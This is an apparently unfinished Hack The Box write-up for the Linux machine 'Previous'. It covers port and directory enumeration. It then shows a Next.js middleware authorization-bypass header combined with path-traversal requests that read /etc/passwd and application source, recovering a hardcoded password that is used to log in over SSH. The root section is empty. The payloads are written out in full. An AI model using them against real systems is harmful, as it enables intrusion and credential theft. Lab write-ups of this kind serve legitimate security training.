 ```yaml
---
name: Previous
difficulty: medium
os: linux
platform: htb
date: 9999
userFlag: false
rootFlag: false

img: image_url
---
```


## Enumeration

We start by scanning the target machine for open ports using Nmap. We will use the `-p-` option to scan all ports and the `--open` option to filter out closed ports:

```bash
nmap -p- --open -sS --min-rate 5000 -n -Pn -vvv 10.10.11.83 -o allPorts
```
```
PORT     STATE SERVICE    REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63
```

Next, we use options `-sV` to enable version detection and `-sC` to run default scripts against the open ports:

```bash
nmap -p22,80 -sCV 10.10.11.83 -o targeted
```
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://previous.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We can see that the SSH service is running on port 22 and the HTTP service is running on port 80. The HTTP service is using Nginx 1.18.0 on Ubuntu.

Nginx is doing virtual hosting redirecting users to `http://previous.htb`. We can add this domain to our `/etc/hosts`:
```bash
echo "10.10.11.83 previous.htb" | sudo tee -a /etc/hosts
```

We use `gobuster` to enumerate directories on the web server:

```bash
gobuster dir -u http://previous.htb -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 200
```
```
/docs                 (Status: 307) [Size: 36] [--> /api/auth/signin?callbackUrl=%2Fdocs]
/api                  (Status: 307) [Size: 35] [--> /api/auth/signin?callbackUrl=%2Fapi]
/signin               (Status: 200) [Size: 3481]
/docsis               (Status: 307) [Size: 38] [--> /api/auth/signin?callbackUrl=%2Fdocsis]
/apis                 (Status: 307) [Size: 36] [--> /api/auth/signin?callbackUrl=%2Fapis]
```

We find a article that discusses an [authorization bypass vulnerability](https://jfrog.com/blog/cve-2025-29927-next-js-authorization-bypass/). This vulnerability allows an attacker to get through the authentication process without any credentials and access sensitive files.

We have to add the following header to all requests which require authentication:
```
x-middleware-subrequest: middleware:middleware:middleware:middleware:middleware
```

If we navigate to `http://previous.htb/docs/examples`, we find a link to download a file. We can modify the request to download the `/etc/passwd` file:
```bash
GET /api/download?example=../../../../../../../etc/passwd HTTP/1.1
x-middleware-subrequest: middleware:middleware:middleware:middleware:middleware
Host: previous.htb
```
```
root:x:0:0:root:/root:/bin/sh
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/mail:/sbin/nologin
news:x:9:13:news:/usr/lib/news:/sbin/nologin
uucp:x:10:14:uucp:/var/spool/uucppublic:/sbin/nologin
cron:x:16:16:cron:/var/spool/cron:/sbin/nologin
ftp:x:21:21::/var/lib/ftp:/sbin/nologin
sshd:x:22:22:sshd:/dev/null:/sbin/nologin
games:x:35:35:games:/usr/games:/sbin/nologin
ntp:x:123:123:NTP:/var/empty:/sbin/nologin
guest:x:405:100:guest:/dev/null:/sbin/nologin
nobody:x:65534:65534:nobody:/:/sbin/nologin
node:x:1000:1000::/home/node:/bin/sh
nextjs:x:1001:65533::/home/nextjs:/sbin/nologin
```

We download the `./app/.next/routes-manifest.json` file to get more information about the application routes:
```
  dynamicRoutes": [
    {
      "page": "/api/auth/[...nextauth]",
      "regex": "^/api/auth/(.+?)(?:/)?$",
      "routeKeys": {
        "nxtPnextauth": "nxtPnextauth"
      },
      "namedRegex": "^/api/auth/(?<nxtPnextauth>.+?)(?:/)?$"
    },
```

Then we can use this information to craft our requests more effectively.

We try to read contents of authorized routes:
```
GET /api/download?example=../../../../../../../../../../../app/.next/server/pages/api/auth/[...nextauth].js 
```
```
...
authorize:async e=>e?.username==="jeremy"&&e.password===(process.env.ADMIN_SECRET??"MyNameIsJeremyAndILovePancakes")?{id:"1",name:"Jeremy"}:null})]
...
```

We find a function `authorize` that checks the username and password against known values.


## User Exploitation


We try to connect as the user `jeremy` with the password `MyNameIsJeremyAndILovePancakes` via ssh:
```bash
ssh jeremy@10.10.11.83
whoami
```
```
jeremy
```

We check the user flag:
```bash
cat /home/jeremy/user.txt
```
```
user flag value
```

## Root Exploitation

## Conclusion


